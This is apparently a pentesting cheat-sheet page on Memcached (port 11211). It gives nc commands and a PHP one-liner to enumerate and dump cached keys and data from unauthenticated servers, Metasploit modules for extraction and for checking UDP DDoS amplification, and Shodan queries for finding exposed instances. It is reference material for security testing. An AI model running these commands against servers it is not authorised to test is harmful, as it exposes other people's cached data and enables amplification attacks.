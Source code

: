 # 11211 - Pentesting Memcache

## Protocol Information

**Memcached** \(pronunciation: mem-cashed, mem-cash-dee\) is a general-purpose distributed [memory caching](https://en.wikipedia.org/wiki/Memory_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source \(such as a database or API\) must be read. \(From [wikipedia](https://en.wikipedia.org/wiki/Memcached)\)  
Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```text
PORT      STATE SERVICE
11211/tcp open  unknown
```

## Enumeration

### Manual

To ex-filtrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and  disappearing**.

```bash
echo "version" | nc -vn <IP> 11211      #Get version
echo "stats" | nc -vn <IP> 11211        #Get status
echo "stats slabs" | nc -vn <IP> 11211  #Get slabs
echo "stats items" | nc -vn <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn <IP> 11211  #Get key names
echo "get <item_name>" | nc -vn <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Automatic

```bash
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible 
```

### **Shodan**

* `port:11211 "STAT pid"`
* `"STAT pid"`

